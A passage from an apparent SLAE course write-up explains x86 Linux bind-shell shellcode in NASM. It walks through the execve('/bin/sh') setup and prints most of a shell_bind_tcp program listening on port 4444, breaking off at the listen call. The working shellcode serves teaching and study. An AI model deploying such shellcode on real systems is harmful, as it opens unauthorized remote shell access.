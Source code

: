 ```nasm
push edx            ; delimiting NULL for argv[] & envp[]
mov edx, esp        ; *const envp[]
push ebx            ; *pathname
mov ecx, esp        ; *const argv[]
mov al, 0xb         ; execve
int 0x80
```

Another `PUSH` instruction is used which serves as a delimeter for the second and third arguments. Immediately after the referenced `PUSH` instruction, the memory address stored in `ESP` is moved to `EDX` to be pased as the third argument to `execve`. Next, the memory address value in `EBX` which is the location of the `/bin/sh` string in memory is pushed to the stack. Now, the stack contains the memory address of `/bin/sh` string's location in memory followed by `NULL`, and therefore the memory address in `ESP` serves as a pointer to the array of arguments to be passed to `/bin/sh`. The value in `ESP` is moved to `ECX` to be passed as the second argument for `execve`. The `execve` system call number is moved into `AL` before the software interrupt occurs.

## Completed Assembly Program
Shown below is the assembly program described above in its entirety. Some of the comments from the code above have been removed. The fully commented version of the code can be found on [GitHub](https://github.com/norrismw/SLAE).

```nasm
; shell_bind_tcp.nasm
; Author: Michael Norris

global _start

section .text
_start:
    ; clear registers
    xor edx, edx
    xor ecx, ecx
    xor ebx, ebx
    xor eax, eax

    ; int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    push edx            ; 0
    push 0x1            ; 1 = SOCK_STREAM
    push 0x2            ; 2 = AF_INET
    mov ecx, esp        ; *args
    inc bl              ; 1 = sys_socket
    mov al, 0x66        ; socketcall
    int 0x80            ; returns int sockfd in eax
    mov esi, eax        ; store int sockfd in esi

    ; struct sockaddr_in addr;
    push edx            ; addr.sin_addr.s_addr = 0 = INADDR_ANY;
    push word 0x5c11    ; addr.sin_port = htons(4444);
    push word 0x2       ; addr.sin_family = 2 = AF_INET;
    mov ecx, esp        ; pointer to struct sockaddr_in addr;

    ; bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    push 0x10           ; 16 = sizeof(addr)
    push ecx            ; (struct sockaddr *)&addr
    push esi            ; sockfd
    mov ecx, esp        ; *args
    inc bl              ; 2 = sys_bind
    mov al, 0x66        ; socketcall   
    int 0x80            ; returns 0 in eax

    ; listen(sockfd, 0);
    push edx            ; 0
```